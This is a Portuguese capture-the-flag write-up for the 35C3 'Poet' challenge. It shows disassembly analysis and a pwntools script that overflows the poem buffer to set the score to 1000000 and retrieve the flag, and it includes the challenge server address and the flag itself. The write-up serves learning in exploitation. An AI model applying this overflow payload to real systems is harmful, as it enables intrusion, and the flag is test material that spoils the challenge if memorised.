 ## [35C3CTF](https://ctftime.org/event/718)
### Nome: [Poet](https://35c3ctf.ccc.ac/uploads/juniorctf/poet-724c1a07d5cf958381856c332e9019d57b5d51bf.zip)
#### Dificuldade: Muito fácil
**Descrição**: 
*We are looking for the  poe  of the year:* `nc 35.207.132.47 22223`
## Levantamento de informações
Ao baixarmos e extrairmos o arquivo zip, obtemos o arquivo Poet:
                                                                                                                                                                            
    C:\Users\ecarlosn\Desktop\poetwu                                                                                                                                        
    > File poet                                                                                                                                                             
    poet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=145cad36473cb
    96072142f67bbde20e991c5a4b7, not stripped                                                                                                                               
*Antes de qualquer ação, vejamos o que o executável faz.*

    **********************************************************
    * We are searching for the poet of the year 2018.        *
    * Submit your one line poem now to win an amazing prize! *
    **********************************************************
    Enter the poem here:
    > happy new year
    Who is the author of this poem?
    > deadlock
    
    +---------------------------------------------------------------------------+
    THE POEM
    happy new year
    SCORED 0 POINTS.
    
    SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!
    +---------------------------------------------------------------------------+

**"SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!"**
    *A mensagem exibida diz que precisamos pontuar exatamente **1000000**. Hora de analisar o executável.*

## Solução
 Para a análise em questão, foi utilizado o [IDA](https://www.hex-rays.com/products/ida/support/download_freeware.shtml).

![IDA screenshot](https://i.imgur.com/XookLxm.png)

*No endereço **00000000004009D3** é possível vizualizar uma chamada à função **rate_poem( )**. Vejamos o que ela faz.*

    .text:000000000040080C loc_40080C:                             ; CODE XREF: rate_poem+8B↓j
    .text:000000000040080C                                         ; rate_poem+A2↓j ...
    .text:000000000040080C                 add     cs:dword_6024E0, 64h
    .text:0000000000400813
    .text:0000000000400813 loc_400813:                             ; CODE XREF: rate_poem+147↓j
    .text:0000000000400813                 lea     rsi, delim      ; " \n"
    .text:000000000040081A                 mov     edi, 0          ; s
    .text:000000000040081F                 call    _strtok
    .text:0000000000400824                 test    rax, rax
    .text:0000000000400827                 jz      loc_400909
    .text:000000000040082D
    .text:000000000040082D loc_40082D:                             ; CODE XREF: rate_poem+53↑j
    .text:000000000040082D                 mov     ecx, 5
    .text:0000000000400832                 mov     rsi, rax
    .text:0000000000400835                 mov     rdi, rbx
    .text:0000000000400838                 repe cmpsb
    .text:000000000040083A                 setnbe  dl
    .text:000000000040083D                 sbb     dl, 0
    .text:0000000000400840                 test    dl, dl
    .text:0000000000400842                 jz      short loc_40080C
    .text:0000000000400844                 mov     ecx, 4
    ...
    ...
    ...
    .text:0000000000400889                 mov     ecx, 7
    .text:000000000040088E                 lea     rdi, aRepeat    ; "repeat"
    ...
    ...
    .text:00000000004008A0                 test    dl, dl
    .text:00000000004008A2                 jz      loc_40080C
    .text:00000000004008A8                 mov     ecx, 4
    .text:00000000004008AD                 lea     rdi, aCtf       ; "CTF"
    .text:00000000004008B4                 mov     rsi, rax
    .text:00000000004008B7                 repe cmpsb
    .text:00000000004008B9                 setnbe  dl
    .text:00000000004008BC                 sbb     dl, 0
    .text:00000000004008BF                 test    dl, dl
    .text:00000000004008C1                 jz      loc_40080C
    .text:00000000004008C7                 mov     ecx, 8
    .text:00000000004008CC                 lea     rdi, aCapture   ; "capture"
    .text:00000000004008D3                 mov     rsi, rax
    ...
    ...
    .text:00000000004008DE                 test    dl, dl
    .text:00000000004008E0                 jz      loc_40080C
    .text:00000000004008E6                 mov     ecx, 5
    .text:00000000004008EB                 lea     rdi, aFlag      ; "flag"
    ...
    ...
    .text:00000000004008FC                 test    al, al
    .text:00000000004008FE                 jnz     loc_400813
    .text:0000000000400904                 jmp     loc_40080C
    .text:0000000000400909 ; ---------------------------------------------------------------------------
*A função nos retorna uma série de comparações com palavras específicas (**flag, pwn, CTF, capture**...).
Apesar das palavras da função nos retornarem pontos acima de Zero:*

    Enter the poem here:
    > flag
    Who is the author of this poem?
    > pwn
    +--------------------------------------------
    THE POEM
    flag
    SCORED 100 POINTS.
    
    SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!
*Após algumas análises, percebe-se que são irrelevantes para nossa resolução.*
*Voltando à função main, pode-se ver uma outra comparação no endereço **00000000004009D8**:*
![IDA screenshot](https://i.imgur.com/N7L3rSF.png)

*A comparação feita acima verifica se [rbx+440h] é igual à f4240h. Caso essa condição seja verdadeira,  você recebe o resultado da chamada( **flag** ), caso contrário, recebemos a mensagem de erro "**\nSORRY, THIS POEM....*** .

*o **H** no final da sequência de letras e números nos indica que os valores estão em [Hexadecimal](https://pt.wikipedia.org/wiki/Sistema_de_numera%C3%A7%C3%A3o_hexadecimal). Usando qualquer método de conversão para base10(**Decimal**), descobrimos que:*

 - 0x440h = 1088 **base10**
 - 0x_f4240h = 1000000 **base10**

 *Ótimo, encontramos a comparação que é feita para validação do poema/autor. Então, precisamos fazer com que  o registrador **rbx + 1088 = 0xf4240**.*
 *Após uma depuração, pode-se perceber que o responsável pelo nosso input está em **[rbx+1088]** Desta forma, podemos montar nosso script.*
 No caso em questão, foi utilizada a lib [pwntools](http://docs.pwntools.com/en/stable/) no [python2.7](https://www.python.org/download/releases/2.7/).

*Sabendo que **rbx** precisa receber **1088** bytes e que o **cmp** trabalha com os últimos**4 bytes**, enviamos **1084** bytes aleatórios + valor à ser comparado nos últimos .*
   

    from pwn import *
    
    r = remote('35.207.132.47', '22223')   
    print r.recvuntil('Enter the poem here:\n')
    r.sendline('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa\x40\x42\x0f\x00')
    print r.recvuntil('this poem?\n')
    r.sendline('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa\x40\x42\x0f\x00')
    print r.recvline()
    print r.recvline()
    print r.recvuntil('POINTS')
    print r.recv(1024)

*No script, enviamos o valor em **Hexadecimal** nos últimos 4 bytes que formam 1088, assim, quando a comparação for feita, teremos que **0x_f4240h == 0x_f4240h** *

 - *As letras aleatórias no script podem ser substituídas por exemplo, por* "A" **1084. Feito desta maneira apenas por questões de entendimento geral.*

*após a execução:*

![enter image description here](https://i.imgur.com/AEo9lHY.png)
-
**FLAG     : **35C3_f08b903f48608a14cbfbf73c08d7bdd731a87d39****

---
## Recomendações para entendimento geral
[x64_cheatsheet.pdf](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)
[Assembly Control Flow](https://en.wikibooks.org/wiki/X86_Assembly/Control_Flow)
[CMPx86](https://www.felixcloutier.com/x86/cmp)
